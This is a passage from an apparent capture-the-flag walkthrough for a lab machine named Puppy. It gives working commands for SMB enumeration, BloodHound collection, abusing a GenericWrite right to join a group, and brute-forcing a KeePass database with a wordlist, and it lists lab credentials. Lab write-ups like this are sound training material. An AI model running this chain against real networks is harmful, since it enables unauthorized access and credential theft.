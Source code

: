 Check SMB shares:  
```bash
smbmap -H 10.10.11.70 -u levi.james -p 'KingofAkron2025!'
```

**Found:** Share `DEV` (no access yet).

## 3. BloodHound Enumeration

Run BloodHound enumeration:  
```bash
bloodhound-python -dc DC.puppy.htb -u 'levi.james' -p 'KingofAkron2025!' -d PUPPY.HTB -c All -o bloodhound.json -ns 10.10.11.70
```

**Finding:** `levi.james` has `GenericWrite` permission on the `DEVELOPERS` group.

## 4. Privilege Escalation via Group Membership

Add yourself to the `DEVELOPERS` group:  
```bash
bloodyAD --host 10.10.11.70 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```

Access the `DEV` share:  
```bash
smbclient \\10.10.11.70\DEV -U "levi.james"
```

**Files Found:**  
- `recovery.kdbx` (KeePass database)  
- KeePassXC installer  

## 5. Cracking the KeePass Database

Clone the KeePass brute force tool:  
```bash
git clone https://github.com/r3nt0n/keepass4brute.git
```

Run brute force on `.kdbx` file:  
```bash
./keepass4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt
```

**Password Found:** `liverpool`

Export entries:  
```bash
keepassxc-cli export --format=xml recovery.kdbx > keepass_dump.xml
```

Extract credentials using a Python script. **Passwords Obtained:**  
- JamieLove2025!  
- Antman2025!
